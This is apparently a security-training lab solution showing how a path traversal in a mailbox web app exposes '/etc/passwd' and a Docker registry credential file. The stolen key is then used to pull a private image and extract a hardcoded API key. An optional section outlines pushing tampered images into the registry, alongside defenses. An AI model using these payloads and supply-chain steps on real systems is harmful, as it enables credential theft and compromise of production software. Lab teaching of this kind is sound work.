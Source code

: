 # Exploiting Private Registry via Misconfiguration - Solution

* Navigate to the application `http://mailbox-service.student-uniquename.cloudsec.training`

* Login to the application using `username: bob` and `password: bobmailbox`

![](images/app-login.png)

* We can see that `README.md` discloses information regarding the private registry

![](images/information-disclosure.png)


* It appears that the `page` parameter is vulnerable to an Insecure Direct Object Reference, potentially allowing us to read other files on the system.
  
* Let's try out a common payload and see if this IDOR is actually a path traversal vulnerability. We can gain read a local files using payload `qqqqq/../../etc/passwd`

![](images/path-traversal-exploitation.png)

* Similarly we can read other sensitive files in the system and find that the system contains `/root/.docker/config.json` with payload `qqqqq/../../root/.docker/config.json`

![](images/docker-config.png)

* We can use this docker configuration to pull docker images from private registry. Save the `config.json` file onto your system

* Run the following command to configure the docker private registry using configuration file.

```bash
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
```

![](images/docker-registry-login.png)

* Now pull the private registry image to get the backend source code

```bash
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
```

![](images/pull-private-image.png)

```bash
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest sh
ls -la
cat index.js
```

![](images/source-code-hardcoded-key.png)

* Now you can see that we have got the `NASA_DEMO_API_KEY` which is hard coded in the container image


* (Optional) Now lets gain persistence and spread through the company. 

The ability to push to arbitrary repositories
is a company ending event. It bypasses all the gating checks between environments and offers complete 
lateral movement. It offers the attacker the chance to hop from dev to production, or datacenter to cloud.

Let's rebuild the container. Inspecting the image using the `docker history` command
shows information about the layers much like `git history`. The dfimage container leverages
layer metadata to build a nice Dockerfile. If it fails, fall back to `docker history`.

```
alias dfimage="docker run -v /var/run/docker.sock:/var/run/docker.sock --rm alpine/dfimage"
dfimage -sV=1.36 kbroughton/k8s-workshop-mailbox-service
```

Any "COPY" or "ADD" commands will need to be recovered from directories in the container.
"ENV" and "LABEL" with spaces between items may need to be quoted. Expect other manual touch-ups.

Copy the output into a Dockerfile. We will modify it, tag it and push to the new container to the repo.
Any manifests which use the "latest" tag will easily pick this up. If not, but we know the existing tag,
then we can likely over-write the tag. Artifactory has a no-overwrite setting but it is disabled by default.

From within the container, the container code would need to be exfiltrated or modified insitue.
From the node, with the running container
```
docker cp $CONTAINER_ID:/path node_path
```

The best target for embedding malicious content would be 3rd party libraries with typo-squatted names
or portions of the container codebase which are complex or had undergone recent overhauls.

The major defenses are:

* Binary authorization / Notary Services so that only a few dedicated build machines can sign container manifests
and only signed containers can run on production nodes.
* Separate repos for development and production. Many devs can push to a wild-west container repo, but only strictly
gated service accounts can publish to production repositories.

The same impact and defenses apply to the ability to write to source repositories. The most difficult things to
secure are common utility repos which many teams may need to update.

* An alternative coming soon... kubectl debug

Released in kubectl v1.8 in beta, you can latch onto a running pod but with elevated tools and privileges
of a debug container speficied in the `--image` section in the command below.

```
kubectl alpha debug -it mailbox-service-74c9949944-rn5k4 --image alpine --target mailbox-service-74c9949944-rn5k4
```

## Instructor Notes

[Custom Kind with ephemeral containers](https://medium.com/01001101/ephemeral-containers-the-future-of-kubernetes-workload-debugging-c5b7ded3019f)

